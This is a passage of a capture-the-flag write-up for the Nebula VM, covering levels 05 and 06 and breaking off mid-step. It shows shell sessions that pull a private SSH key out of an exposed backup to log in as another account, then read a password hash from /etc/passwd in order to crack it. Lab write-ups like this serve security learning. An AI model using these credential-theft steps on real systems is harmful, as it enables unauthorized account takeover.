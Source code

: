 This was really straight forward once the C code is understood.

## Level 05:

This time there is no source code, but the hint points at insecure directory permissions:

```
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
level05@nebula:/home/flag05$ cd .backup/
level05@nebula:/home/flag05/.backup$ ls
backup-19072011.tgz
level05@nebula:/home/flag05/.backup$ mkdir /tmp/backup
level05@nebula:/home/flag05/.backup$ tar -xzf backup-19072011.tgz -C /tmp/backup/
level05@nebula:/home/flag05/.backup$ cd /tmp/backup/
level05@nebula:/tmp/backup$ ls
level05@nebula:/tmp/backup$ ls -la
total 0
drwxrwxr-x 3 level05 level05  60 2018-06-25 06:20 .
drwxrwxrwt 5 root    root    160 2018-06-25 06:20 ..
drwxr-xr-x 2 level05 level05 100 2011-07-19 02:37 .ssh
level05@nebula:/tmp/backup$ cd .ssh/
level05@nebula:/tmp/backup/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
level05@nebula:/tmp/backup/.ssh$ ssh -i ./id_rsa flag05@localhost
[...]
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

We find a hidden `.backup` folder with a compressed backup of the `.ssh` folder inside containing an SSH keys. We can use it to log in to `flag05` via SSH and we have the flag.

## Level 06:

This time we only know that the `flag06` account came from a legacy unix system. My first guess is that probably means that the `/etc/passwd` file could contain the password hash. Nowadays the password would reside encrypted in the `/etc/shadow` file which we can't even read. Let's have a look:

```
level06@nebula:/home/flag06$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

Indeed, we can see a password hash in the field where modern accounts would only show an `x`. I don't have a better solution than to crack it, which will probably be easy as the hash function is probably very dated. To achieve this I use `scp` to upload john the ripper to the Nebula VM.
